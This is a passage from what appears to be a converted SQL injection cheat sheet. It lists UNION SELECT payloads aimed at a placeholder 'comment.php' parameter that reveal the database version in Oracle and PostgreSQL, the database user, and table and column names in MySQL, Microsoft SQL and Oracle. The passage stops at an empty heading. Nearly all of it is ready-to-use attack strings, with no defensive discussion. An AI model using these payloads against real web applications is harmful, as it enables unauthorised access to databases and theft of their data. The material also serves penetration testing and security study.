 <span id="anchor-148"></span>Discover Database Version v2 (Oracle)

```
http://&lt;someserver&gt;/comment.php?id=758 union all select 1,2,3,4,banner,6 FROM v$version
```

<span id="anchor-149"></span>Discover Database Version v3 (Oracle)

```
http://&lt;someserver&gt;/comment.php?id=758 union all select 1,2,3,4,version,6 FROM v$instance
```

<span id="anchor-150"></span>Discover Database Version (PostgreSQL)

```
http://&lt;someserver&gt;/comment.php?id=758 union all select 1,2,3,4,version(),6
```

<span id="anchor-151"></span>Discover Database User

```
http://&lt;someserver&gt;/comment.php?id=758 union all select 1,2,3,4,user(),6
```

<span id="anchor-152"></span>Enumerating Table Names (MySQL, Microsoft
SQL)

This example is injecting a “union all select” statement to place the
list of table names into column 5

```
http://&lt;someserver&gt;/comment.php?id=758 union all select 1,2,3,4,table\_name,6 FROM information\_schema.tables
```

```
%' and 1=0 union select null, table\_name from information\_schema.tables \#
```

<span id="anchor-153"></span>Enumerating Column Names of a Table (MySQL,
Microsoft SQL)

This example is injecting a “union all select” statement to list the
column names of the supplied talle.

```
http://**&lt;server&gt;**/**&lt;somefile&gt;**.php?**&lt;somevariable&gt;**=**&lt;somevalue&gt;** union all select 1,2,3,4,column\_name,6 FROM information\_schema.columns where table\_name=’**&lt;table\_name&gt;**’
```

```
%' and 1=0 union select null, column\_name from information\_schema.columns where table\_name = 'users' \#”
```

<span id="anchor-154"></span>Enumerating Table Names (Oracle)

```
SELECT table\_name FROM all\_tables
```

<span id="anchor-155"></span>Enumerating Column Names (Oracle)
